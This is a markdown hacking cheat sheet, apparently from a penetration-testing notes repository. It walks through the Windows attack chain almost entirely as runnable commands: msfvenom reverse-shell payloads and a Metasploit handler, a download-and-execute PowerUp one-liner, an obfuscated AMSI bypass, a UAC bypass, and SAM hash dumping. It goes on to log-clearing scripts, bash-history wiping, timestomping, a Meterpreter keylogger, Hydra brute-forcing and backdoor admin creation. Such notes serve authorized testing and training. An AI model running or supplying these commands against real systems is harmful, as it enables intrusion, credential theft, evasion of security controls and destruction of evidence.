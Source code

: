 ## System hacking cheat sheet

### Getting shell with msfvenom and use PowerUp.ps1 to escalate privileges

#### Generate payload and encode using msfvenom

```sh
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP Address of Host Machine] LPORT=[Port in the Host Machine] -o [Output Path/shellcode.exe]
```

```sh
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=[IP Address of Host Machine] -f exe > Desktop/Backdoor.exe
```
[msfvenom documentation](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

#### Upload shellcode using a local server

```sh
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp [PATH]/shellcode.exe /var/www/html/share

service apache2 start
```

Download it to the victim machine `[IP Address of Host Machine]/share/shellcode.exe`.

#### Using handler in metasploit to connect to the payload

```sh
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set LHOST [IP Address of Host Machine]
set LPORT [Port in the Host Machine]
exploit 
```

#### Upload PowerUp.ps1

```sh
upload [PATH]/PowerUp.ps1 PowerUp.ps1
```

#### PowerUp.ps1

##### Check all vulnerabilities

```sh
shell
poweshell -ep bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```
[PowerUp.ps1 tutorial](https://recipeforroot.com/advanced-powerup-ps1-usage/)

`bypass` is used to bypass PowerShell’s execution policy.

For disable [AMSI](https://docs.microsoft.com/en-us/archive/blogs/poshchap/security-focus-defending-powershell-with-the-anti-malware-scan-interface-amsi):

```sh
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

###### Excute PowerUp.ps1 without upload the script

```sh
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/HarmJ0y/PowerUp/master/PowerUp.ps1'); Invoke-AllChecks"
```

##### Escalate privileges

```sh
Invoke-ServiceAbuse -Name 'Name of the vulnerable service'
```

### Attemp to bypass Windows UAC protection via the FodHelper Registry Key usind bypassuac_fodhelper exploit

```sh
use exploit/windows/local/bypassuac_fodhelper
```

If it works, in some cases we can already escalate privileges with some techniques like `getsystem`.

### Attemp to elevate privileges with Meterpreter

```sh
getsystem -t 1
```

### Obtain password hashes in the SAM file using Metasploit (root requiered)

```sh
run post/windows/gather/smart_hashdump
```

It uses the service [Named Pipe Impersonation (In Memory/Admin) Technique](https://securityintelligence.com/identifying-named-pipe-impersonation-and-other-malicious-privilege-escalation-techniques/).

### Clear the events logs that require administrative or root privileges using Meterpreter (root requiered)

```sh
clearev
```

### Clear all event viewer logs using wevtutil (Windows)

```sh
for /F "tokens=*" %1 in ('wevtutil.exe el') DO wevtutil.exe cl "%1"
```

```sh
@echo off

FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo All Event Logs have been cleared!
goto theEnd

:do_clear
echo clearing %1
wevtutil.exe cl %1
goto :eof

:noAdmin
echo Current user permissions to execute this .BAT file are inadequate.
echo This .BAT file must be run with administrative privileges.
echo Exit now, right click on this .BAT file, and select "Run as administrator".  
pause >nul

:theEnd
Exit
```

### Securely delete a chunk of data by overwriting it to prevent its possible recovery using in-built Windows tool (Windows)

```sh
cipher /w:[Drive or Folder or File Location] 
```

### Avoid bash history

#### Disable the BASH shell from saving the history (Linux)

```sh
export HISTSIZE=0
```

#### Make bash history unreadable (Linux)

```sh
shred ~/.bash_history
```

```sh
shred ~/.bash_history && cat /dev/null > .bash_history
```

### Leave no trace of MACE attributes when reading or modifying files using Meterpreter

#### To view the mace attributes of a file (Windows)

```sh
timestomp [FILE] -v
```

#### Change MACE attributes (Windows)

```sh
timestomp [FILE] -m "mm/dd/yyyy hh:mm:ss"
```

### Kylogger using Meterpreter

#### Start keylogger

```sh
keyscan_start
```

#### Read keylogger log

```sh
keyscan_dump
```

### Attempt to gain access to FTP server perform a dictionaty attack using THC Hydra

```sh
hydra -L [USERNAMES DICTIONARY] -P [PASSWORDS DICTIONARY] ftp://[IP]
```

### Create user and set admin privilegies in Windows

```sh
net user Test /Add
net localgroup Administrators Test /Add
```



[<- Back to index](README.md)

---
## License

© 2021 [javierizquierdovera.com](https://javierizquierdovera.com)

Licensed under the [Apache License, Version 2.0](https://www.apache.org/licenses/LICENSE-2.0) ([`LICENSE-APACHE`](LICENSE-APACHE)) or the [MIT license](https://opensource.org/licenses/MIT) ([`LICENSE-MIT`](LICENSE-MIT)), at your option.

`SPDX-License-Identifier: (Apache-2.0 OR MIT)`